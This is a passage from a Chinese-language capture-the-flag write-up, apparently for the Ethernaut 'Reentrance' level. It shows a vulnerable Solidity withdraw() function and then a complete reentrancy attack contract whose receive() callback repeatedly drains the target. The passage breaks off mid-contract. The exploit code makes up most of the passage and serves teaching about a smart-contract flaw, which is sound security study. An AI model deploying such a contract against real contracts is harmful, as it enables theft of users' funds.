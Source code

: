         function withdraw(uint _amount) public {
          if(balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value:_amount}("");
            if(result) {
              _amount;
            }
            balances[msg.sender] -= _amount;
          }
        }
      
        receive() external payable {}
      }
      ```

      *   使账户余额为0

          注意到 `withdraw()`函数,在判断余额后,先发送余额而后减去 `_amount`,我们可以 利用我们的合约来进行重入攻击

          ```solidity
          // SPDX-License-Identifier: MIT
          pragma solidity ^0.8.0;
          
          interface IReentrance {
              function donate(address _to) external payable;
              function withdraw(uint _amount) external;
          }
          
          contract ReentranceAttack {
              address public owner;
              IReentrance targetContract;
              uint constant targetValue = 1000000000000000; // 0.001 ether
          
              constructor(address _target) {
                  targetContract = IReentrance(_target);
                  owner = msg.sender;
              }
          
              function getBalance() public view returns (uint) {
                  return address(this).balance;
              }
          
              function donateAndWithdraw() public payable {
                  require(msg.value >= targetValue);
                  targetContract.donate{value: msg.value}(address(this));
                  targetContract.withdraw(msg.value); // exploit reentrancy
              }
          
              function withdrawAll() public returns (bool) {
                  require(msg.sender == owner);
                  uint totalBalance = address(this).balance;
                  (bool sent, ) = msg.sender.call{value: totalBalance}("");
                  require(sent);
                  return sent;
              }
          
              receive() external payable {
                  uint targetBalance = address(targetContract).balance;
                  if (targetBalance >= targetValue) {
                    targetContract.withdraw(targetValue);
                  }
              }
              